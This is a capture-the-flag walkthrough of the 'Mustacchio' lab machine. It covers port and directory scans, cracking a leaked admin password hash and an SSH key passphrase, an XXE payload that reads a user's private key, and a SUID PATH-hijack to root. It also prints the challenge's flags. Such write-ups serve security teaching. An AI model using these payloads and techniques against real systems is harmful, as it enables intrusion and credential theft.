




# Mustacchio

## Description

Easy boot2root Machine

Deploy and compromise the machine!

## Initial Scan

Let's start with a full port Nmap scan. The scan reveals three open ports:
* 22 ssh
* 80 http
* 8765 http

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web (port 8765)

Let's start with the web service running on the highest port. It is an admin login panel. I tried some default creds but none of them work, so we'll come back to it later.

## Web (port 80)

I didn't find anything in the source code and `/robots.txt` was empty, so I ran `dirsearch` on it to find directories to work with:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Mustacchio]
└─$ dirsearch -u http://$IP:80/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220520

Output File: /home/user/.dirsearch/reports/10.10.38.188/_21-11-22_06-09-24.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-22_06-09-24.log

Target: http://10.10.38.188:80/

[06:09:24] Starting: 
[06:09:26] 301 -  313B  - /images  ->  http://10.10.38.188/images/
[06:09:35] 301 -  313B  - /custom  ->  http://10.10.38.188/custom/
[06:09:54] 301 -  312B  - /fonts  ->  http://10.10.38.188/fonts/
[06:22:31] 403 -  277B  - /server-status

Task Completed
~~~

I started looking through the directories we found and there is a backup file in `/custom/js` named `users.bak`. I downloaded the file. Let's take a look at it:

~~~                            
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ cat users.bak                           
��0]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
~~~

What we have here is a username which is `admin` and a SHA1 password hash. You can crack it yourself or just use an online hash cracker. I used [crackstation](https://crackstation.net/) and got the password: `bulldog19`

Now we have the password for the admin login page.

## XXE

After we have logged in to the admin panel we face this page:

I checked the source code and found a note for `barry` and a backup file:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ curl -s "http://$IP:8765/home.php" | head -n22
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mustacchio | Admin Page</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
    <link rel="stylesheet" href="assets/css/home.css">
    
</head>
<body>

    <!-- Barry, you can now SSH in using your key!-->          <--------------
~~~

I downloaded the backup file (`/auth/dontforget.bak`).It is an example to show the format of the script that we need to submit:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ cat dontforget.bak                            
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I
  [REDACTED]
  noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 
~~~

Reading the paragraph is a waste of time, but since we know that `barry` has a SSH key which we need, and know the format, we can create a payload to read the key. This kind of attack is called XXE (XML external entity) and we can use it to read files or even get RCE. Here is the XML payload:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE sth [ <!ELEMENT sth ANY >
<!ENTITY lol SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
    <name>&lol;</name>
    <author></author>
    <com></com>
</comment>
~~~

After entering this payload, we'll get `barry`'s private key:

## Connecting to SSH

Save the private key in a file and set its permssion to 600. After doing so, we can use it to connect to the machine via SSH, but we are asked for a passphrase:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ chmod 600 barry_rsa  
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ ssh -i barry_rsa barry@$IP 
Enter passphrase for key 'barry_rsa': 
barry@10.10.38.188: Permission denied (publickey).
~~~

Let's crack it. I used an additional tool called `ssh2john` which changes the format of the private key to be crackable by `john`. Then I used `john` and `rockyou` wordlist to crack it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ /usr/share/john/ssh2john.py barry_rsa > key.hash
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt key.hash                    
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (barry_rsa)     
1g 0:00:00:02 DONE (2021-11-22 09:40) 0.4310g/s 1280Kp/s 1280Kc/s 1280KC/s urieljr..urielfabricio
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
~~~

Now we have the password for the private key: `urieljames`

## User flag

Now we can connect to the machine via SSH and read the user flag located in barry's home directory:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ ssh -i barry_rsa barry@$IP
Enter passphrase for key 'barry_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt 
62d77a4d5f97d47c5aa38b3b2651b831
~~~

User flag: `62d77a4d5f97d47c5aa38b3b2651b831`

## Privilege escalation​

Now we need to escalate​ our privilege. I started enumerating the machine manually and found a binary in the other user's home directory (`/home/joe`) named `live_log` which is owned by root:

~~~
barry@mustacchio:/home/joe$ ls -la live_log 
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
~~~

I ran it and it shows the last few lines of the log file. I ran `strings` on it to see if I can find anything useful in the strings and take a look at this:

~~~
barry@mustacchio:/home/joe$ strings live_log 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
printf
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log      <--------------
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
[REDACTED]
~~~

It is using `tail` command which shows the last ten lines of a file and it is running it on nginx's log file.

### Exploit

Since there is no PATH set in the strings, we can create a file named `tail` that spawns a bash console and change the path to the new file. The program has SUID bit set which means when it is run, it is run as `root` and the result for us, is a root shell. The steps are as follows:

~~~
$ cd /tmp
$ echo "/bin/bash" > tail
$ chmod +700 tail
$ export PATH=/tmp:$PATH
~~~

Now we run the program and B00M! We have root access:

~~~
barry@mustacchio:/tmp$ /home/joe/live_log 
root@mustacchio:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@mustacchio:/tmp# cd /root
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt 
3223581420d906c4dd1a5f9b530393a5
~~~

Root flag: `3223581420d906c4dd1a5f9b530393a5`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )